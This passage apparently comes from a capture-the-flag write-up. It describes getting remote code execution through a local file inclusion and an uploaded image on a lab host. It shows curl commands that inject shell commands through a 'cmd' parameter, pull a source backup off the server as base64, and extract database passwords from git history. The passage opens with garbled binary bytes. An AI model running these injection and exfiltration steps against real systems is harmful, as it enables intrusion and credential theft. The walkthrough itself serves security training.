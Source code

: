 ```bash
"
@TT@EQ@UT@TjT@P@UQAE@AQ@EEQAP@PP@@BPPXX@ 
-@@X@
(G

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We achieved RCE via LFI.

## Obtaining user shell
Up to now, we are able to access to the machines files and execute commans, with that in mind, we can scrap the victims file system looking for credentials. After some time injecting commands, we found:
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/456e3906b826586540c60ab73c3ba953_black.jpg&cmd=ls%20/opt%20-la" --output -
total 624
drwxr-xr-x  2 root root   4096 Dec  2 11:19 .
drwxr-xr-x 24 root root   4096 Nov 29 01:34 ..
-rw-r--r--  1 root root 627851 Jul 20  2021 source-files-backup.zip
```

Let's try to download the zip file:
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/456e3906b826586540c60ab73c3ba953_black.jpg&cmd=cat%20/opt/source-files-backup.zip%20|%20base64" > source-files-backup.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  828k    0  828k    0     0  1503k      0 --:--:-- --:--:-- --:--:-- 1501k
❯ mv source-files-backup.zip source-files-backup.zipB64
❯ cat source-files-backup.zipB64 | base64 -d > source-files-backup.zip
❯ unzip source-files-backup.zip
❯ cd backup/
❯ ls
 css                    auth_check.php        header.php   logout.php
 images                 avatar_uploader.php   image.php    profile.php
 js                     db_conn.php           index.php    profile_update.php
 admin_auth_check.php   footer.php            login.php    upload.php
❯ ls -a
 .        js                     footer.php   logout.php
 ..       admin_auth_check.php   header.php   profile.php
 .git     auth_check.php         image.php    profile_update.php
 css      avatar_uploader.php    index.php    upload.php
 images   db_conn.php            login.php   
```
We observe that this is backup of the web source files, but there is also a git folder, which we can use to check previous versions. Let's see if any file has hardcoded credentials:
The file `login.php` hasn't any credentials hardcoded, but the file `db_conn.php` has:
```git
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```
